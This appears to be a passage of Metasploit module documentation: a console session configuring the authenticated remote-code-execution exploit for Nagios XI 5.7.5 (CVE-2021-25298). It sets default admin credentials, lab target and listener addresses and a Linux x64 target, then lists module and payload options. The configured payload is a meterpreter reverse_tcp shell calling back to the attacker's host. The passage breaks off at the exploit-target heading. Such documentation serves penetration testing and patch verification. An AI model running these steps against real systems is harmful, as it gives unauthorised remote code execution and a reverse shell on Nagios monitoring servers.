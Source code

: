 ### CentOS7 Running NagiosXI 5.7.5 (Official OVA) - CVE-2021-25298
```
msf6 > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set USERNAME nagiosadmin
USERNAME => nagiosadmin
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set TARGET_CVE CVE-2021-25298
TARGET_CVE => CVE-2021-25298
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.153.128
LHOST => 192.168.153.128
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOST 192.168.153.132
RHOST => 192.168.153.132
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set TARGET Linux\ (x64)
TARGET => Linux (x64)
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_configwizards_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed,
                                              try to do so. This includes signing the license agreem
                                              ent.
   PASSWORD        nagiosadmin      no        Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port
                                              ][...]
   RHOSTS          192.168.153.132  yes       The target host(s), see https://github.com/rapid7/meta
                                              sploit-framework/wiki/Using-Metasploit
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This
                                               must be an address on the local machine or 0.0.0.0 to
                                               listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly
                                              generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   TARGET_CVE      CVE-2021-25298   yes       CVE to exploit (CVE-2021-25296, CVE-2021-25297, or CVE
                                              -2021-25298)
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      no        Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.153.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

```